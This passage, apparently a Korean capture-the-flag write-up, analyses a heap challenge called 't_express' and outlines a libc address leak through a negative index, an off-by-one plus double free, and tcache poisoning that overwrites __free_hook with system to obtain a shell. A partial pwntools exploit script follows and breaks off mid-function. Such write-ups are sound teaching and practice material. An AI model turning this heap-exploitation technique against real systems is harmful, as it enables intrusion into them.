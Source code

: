 Double Free Bug

- `passes[0]` 는 ticket_type이 변조 되어 pass5 구조체 멤버를 조작할 수 있다고 하였다.
- 그렇기 때문에 해당 인덱스 기준 ride_count 값을 증가 시키게 된다면 1 바이트 증가하게 되어 키 값이 변조가 될 것이다.
- 결국 해당 키 값은 변조가 되어 Double Free가 터지게 된 모습을 확인할 수 있다
# 해결 방안

## 공격

## 공격 시나리오

- 라이브러리 주소를 구하기 위해 메모리 릭을 한다.
    - view_ticket의 index 변수에 -4 첨자 연산을 바탕으로 stderr 의 주소 값을 노출 시킨후 라이브러리 의 stderr 오프셋과의 계산을 통해 구한다.
- passes를 두 장 구매한다. (One ride ticket, One day ticket)
    - One ride ticekt은 lastname을 8바이트 입력 하여 off-by-one 버그가 터지게 한다.
- One day ticket을 사용하여 해제를 진행한다. (첫 번째 해제)
- One ride ticket을 사용하되 ride_count 값을 증가시켜 One day ticket의 키 값을 변조 시킨후 One day ticketd을 다시 해제하여 Double free를 발생시킨다.
    - 해당 과정을 총 두 번 반복하여 공격에 필요한 청크를 생성하도록 한다.
- Double Free로 인하여 같은 주소 값을 가리키는 tcache는 3개이며 첫 번째 할당할 경우 같은 크기로 할당을 하도록 한다.
    - 첫 번째 tcache : __free_hook 주소
    - 두 번째 tcache : "/bin/sh\x00"
    - 세 번째 tcache : "lib_system 주소
- 두 번째 할당한 청크에는 "/bin/sh\x00" 문자열이 들어 있기 때문에 해당 값을 free(system)의 인자로 사용하여 쉘 권한을 얻도록 한다.

## 인터페이스

```python
from pwn import *

e = ELF('./t_express')
l = ELF('./libc.so.6')
p = process('./t_express')
# p = remote('ctf.campus.theori.io', 7079)

def Buy(num, first, last):
    log.info(p.sendafter("choice: ", "1"))
    log.info(p.sendafter("(1/2): ", str(num))+str(num))
    log.info(p.sendafter("First name: ", str(first)) + str(first))
    log.info(p.sendafter("Last name: ", str(last)) + str(last))

def View(idx):
    log.info(p.sendafter("choice: ", "2"))
    log.info(p.sendafter("Index of ticket: ", str(idx)) + str(idx))
    # leak (lib_base)
    if idx < 0:
        log.info(p.recvuntil("|name |"))
        lib_base = u64(p.recvline()[-9:-3].ljust(8, '\x00')
                       ) - 0x83 - l.sym['_IO_2_1_stderr_']
        log.info("lib_base : " + hex(lib_base) )
        return lib_base
    else:
        log.info(p.recvuntil("==========================\n"))
        log.info(p.recvuntil("==========================\n"))

def Use(idx, num):
    log.info(p.sendafter("choice: ", "3"))
    log.info(p.sendafter("Index of ticket: ", str(idx)) + str(idx))
    log.info(p.sendafter("(1/2/3/4): ", str(num)) + str(num))

def _free(idx):
    for i in range(0,3):
```